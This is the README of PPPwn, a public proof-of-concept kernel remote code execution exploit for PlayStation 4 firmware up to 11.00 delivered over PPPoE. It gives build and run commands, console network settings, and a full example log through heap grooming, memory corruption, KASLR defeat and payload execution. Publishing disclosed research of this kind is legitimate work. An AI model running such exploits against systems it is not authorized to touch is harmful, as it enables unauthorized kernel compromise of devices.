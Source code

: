 # PPPwn - PlayStation 4 PPPoE RCE
PPPwn is a kernel remote code execution exploit for PlayStation 4 up to FW 11.00. This is a proof-of-concept exploit for [CVE-2006-4304](https://hackerone.com/reports/2177925) that was reported responsibly to PlayStation.

Supported versions are:
- FW 9.00
- FW 9.03 / 9.04
- FW 9.50 / 9.60
- FW 10.00 / 10.01
- FW 10.50 / 10.70 / 10.71
- FW 11.00
- more can be added (PRs are welcome)

The exploit only prints `PPPwned` on your PS4 as a proof-of-concept. In order to launch Mira or similar homebrew enablers, the `stage2.bin` payload needs to be adapted.

## Requirements
- A computer with an Ethernet port
  - USB adapter also works
- Ethernet cable
- Linux
  - You can use VirtualBox to create a Linux VM with `Bridged Adapter` as network adapter to use the ethernet port in the VM.
- Python3 and gcc installed

## Usage

On your computer, clone the repository:

```sh
git clone --recursive https://github.com/TheOfficialFloW/PPPwn
```

Change the directory to the cloned repository:

```sh
cd PPPwn
```

Install the requirements:

```sh
sudo pip install -r requirements.txt
```

<details>
  <summary>Arch Linux (pacman)</summary>

>```sh
>sudo pacman -S python-scapy
>```
>If you get, `sudo: pacman: command not found`, skip. You are not using an arch based distro.

</details>

Compile the payloads:

```sh
make -C stage1 FW=1100 clean && make -C stage1 FW=1100
make -C stage2 FW=1100 clean && make -C stage2 FW=1100
```

For other firmwares, e.g. FW 9.00, pass `FW=900`.

Run the exploit (see `ifconfig` for the correct interface):

```sh
sudo python3 pppwn.py --interface=enp0s3 --fw=1100
```

For other firmwares, e.g. FW 9.00, pass `--fw=900`.

On your PS4:

- Go to `Settings` and then `Network`
- Select `Set Up Internet connection` and choose `Use a LAN Cable`
- Choose `Custom` setup and choose `PPPoE` for `IP Address Settings`
- Enter anything for `PPPoE User ID` and `PPPoE Password`
- Choose `Automatic` for `DNS Settings` and `MTU Settings`
- Choose `Do Not Use` for `Proxy Server`
- Click `Test Internet Connection` to communicate with your computer

If the exploit fails or the PS4 crashes, you can skip the internet setup and simply click on `Test Internet Connection`. If the `pppwn.py` script is stuck waiting for a request/response, abort it and run it again on your computer, and then click on `Test Internet Connection` on your PS4.

If the exploit works, you should see an output similar to below, and you should see `Cannot connect to network.` followed by `PPPwned` printed on your PS4.

### Example run

```sh
[+] PPPwn - PlayStation 4 PPPoE RCE by theflow
[+] args: interface=enp0s3 fw=1100 stage1=stage1/stage1.bin stage2=stage2/stage2.bin

[+] STAGE 0: Initialization
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffabd634beba00
[+] Target MAC: xx:xx:xx:xx:xx:xx
[+] Source MAC: 07:ba:be:34:d6:ab
[+] AC cookie length: 0x4e0
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...
[*] Waiting for interface to be ready...
[+] Target IPv6: fe80::2d9:d1ff:febc:83e4
[+] Heap grooming...done

[+] STAGE 1: Memory corruption
[+] Pinning to CPU 0...done
[*] Sending malicious LCP configure request...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...
[+] Scanning for corrupted object...found fe80::0fdf:4141:4141:4141

[+] STAGE 2: KASLR defeat
[*] Defeating KASLR...
[+] pppoe_softc_list: 0xffffffff884de578
[+] kaslr_offset: 0x3ffc000

[+] STAGE 3: Remote code execution
[*] Sending LCP terminate request...
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffabd634beba00
[+] Target MAC: xx:xx:xx:xx:xx:xx
[+] Source MAC: 97:df:ea:86:ff:ff
[+] AC cookie length: 0x511
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Triggering code execution...
[*] Waiting for stage1 to resume...
[*] Sending PADT...
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffabd634be9200
[+] Target MAC: xx:xx:xx:xx:xx:xx
[+] AC cookie length: 0x0
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...

[+] STAGE 4: Arbitrary payload execution
[*] Sending stage2 payload...
[+] Done!
```

## Notes for Mac Apple Silicon Users (arm64 / aarch64)
The code will not compile on Apple Silicon and requires AMD64 architecture. 
There is a workaround using docker which will build the bin files required.
Clone this repository to your mac system, then from the repo folder run `./build-macarm.sh`.This will build the binaries for PS4 FW 1100 and place the necessary files into the correct folders. To build the binaries for a different version, i.e. 900, run the command as such: `./build-macarm.sh 900`. Once built, copy this folder structure into the Linux VM and execute as instructed above. 
This has been tested using VMware Fusion 13.5.1, with the VM Guest as Ubuntu 24.04, and the host machine is MacOS 14.4.1

